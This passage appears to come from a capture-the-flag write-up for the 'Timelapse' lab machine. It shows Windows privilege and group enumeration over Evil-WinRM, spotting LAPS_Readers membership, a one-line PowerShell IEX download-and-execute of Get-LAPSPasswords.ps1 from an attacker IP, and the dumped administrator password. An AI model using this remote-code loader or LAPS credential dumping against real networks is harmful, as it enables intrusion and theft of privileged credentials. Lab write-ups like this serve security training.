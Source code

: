 ```powershell
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled

```
No special permissions, let's enumerate our groups:
```bash
*Evil-WinRM* PS C:\Users\svc_deploy\Documents> net user svc_deploy
User name                    svc_deploy
Full Name                    svc_deploy
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            10/25/2021 11:12:37 AM
Password expires             Never
Password changeable          10/26/2021 11:12:37 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   2/6/2023 9:25:55 PM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use
Global Group memberships     *LAPS_Readers         *Domain Users
The command completed successfully.
```
Now this is interesting, we are part of a group called "LAPS_Readers"; a good search about that group could lead us to something interesting, a good article about [Dumping LAPS](https://www.hackingarticles.in/credential-dumpinglaps/) such article give us a reference to the [Get-LAPSPasswords.ps1](https://raw.githubusercontent.com/kfosaaen/Get-LAPSPasswords/master/Get-LAPSPasswords.ps1) which is worth to check:
```powershell
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.3/Get-LAPSPasswords.ps1')
```
Then by reading the exploit, we find that the Powershell module can be executed as follows:
```powershell
Hostname   : dc01.timelapse.htb
Stored     : 1
Readable   : 1
Password   : k/lUoz3pm8]1ql0R[+i3{1n2
Expiration : 2/11/2023 6:35:44 PM
```
